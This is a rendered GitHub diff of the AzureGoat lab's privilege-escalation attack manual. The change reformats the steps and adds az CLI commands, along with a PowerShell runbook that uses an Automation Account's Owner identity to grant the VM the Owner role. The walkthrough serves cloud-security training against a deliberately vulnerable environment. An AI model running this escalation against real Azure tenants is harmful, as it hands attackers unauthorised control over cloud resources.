

Before and after one commit to ine-labs/AzureGoat, a Markdown page: attack-manuals/module-1/05-Privilege Escalation.md, the part around one of its changes. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Update manual

````diff
--- a/attack-manuals/module-1/05-Privilege Escalation.md
+++ b/attack-manuals/module-1/05-Privilege Escalation.md
@@ -52,7 +56,7 @@ Now, check the level of access given to our VM
 
 We have a contributor role assigned. We can not perform role assignment operations to escalate our privileges.
 
-### Check the list of resources to find out which resource is associated with the owner-level identity.
+**Step 5:** Check the list of resources to find out which resource is associated with the owner-level identity.
 
-In the list of role assignments, we have an Owner role, we will try to map its principalId with the principalId for one of the resources.
+In the list of role assignments, we have an Owner role, we will try to map its principalID with the principalID for one of the resources.
 
@@ -60,25 +64,29 @@ In the list of role assignments, we have an Owner role, we will try to map its p
 
-![](https://user-images.githubusercontent.com/65826354/183737354-27fdcc60-58ec-45c8-a0c3-b0abf6d459a3.png)
+To correlate this with the principal ID of the resources, you may run the following command again.
+
+```
+az resource list
+```
+
+![](https://user-images.githubusercontent.com/42687376/223097152-a30a38cd-7d86-429b-9581-15118bb8c799.png)
 
 We found an automation account with Owner privileges.
 
-### Check for the runbooks to perform privileges escalation.
+**Step 6:** Check for the runbooks to perform privileges escalation.
 
-![](https://user-images.githubusercontent.com/65826354/183737359-b9ce3b71-1531-48a8-8ee7-6fc1cc689e91.png)
+```
+az automation runbook list --automation-account-name <Automation-account-name> -g azuregoat_app
+```
+
+**Note:** Substitute the name of the automation account with the name of the automation account obtained by listing and matching the principal ID of the resource and also if your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group to ensure that the commands are executed on the correct resource group.
+
+![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)
 
 We found a PowerShellWorkFlow based runbook.
 
-Run: -
+**Step 7:** Create a PowerShell script to elevate privileges.
 
-```
-az automation runbook list --automation-account-name dev-automation-account-test -g user_blog_app
-```
-
-![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)
-
-### Write a PowerShell script.
-
-This code will assign the **Owner** role to the virtual machine.
+This code will assign the **Owner** role to the Virtual Machine.
 
 ```
 workflow Get-AzureVM
@@ -89,4 +97,8 @@ workflow Get-AzureVM
     New-AzRoleAssignment -RoleDefinitionName "Owner" -ObjectId <VM-Object-ID> -resourceGroupName <ResourceGroup Name>
 }
 ```
+Please update the following placeholders with the appropriate values:
+- Replace `<Identity-Client-ID>` with the Client ID of your Automation Account.
+- Replace `<VM-Object-ID>` with the Principal ID of your Virtual Machine.
+- Replace `<ResourceGroup Name>` with the name of your Resource Group.
 
@@ -94,5 +106,5 @@ workflow Get-AzureVM
 
-### Replace, publish and re-start the runbook.
+**Step 8:** Replace, publish and re-start the runbook.
 
 We will replace the content inside the azure runbook, publish it and start it to execute the role assignment code.
 
@@ -108,11 +120,11 @@ az automation runbook start --automation-account-name "dev-automation-account-te
 
-### Check the role assignment list.
+**Step 9:** Check the role assignment list.
 
 ```
-az role assignment list -g user_blog_app
+az role assignment list -g azuregoat_app
 ```
 
-![](https://user-images.githubusercontent.com/65826354/183737404-198f7ef3-8b93-4e59-b0dd-05624d7c50c4.png)
+**Note:** It may take some time to switch from "Contributor" to "Owner" by using the Runbook. If your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group
 
-Find our VM using the principalId.
+Find our VM using the Principal ID.
 
````
Also changed, not shown: other parts of attack-manuals/module-1/05-Privilege Escalation.md (+20 -16 lines), README.md (+2 -0 lines).
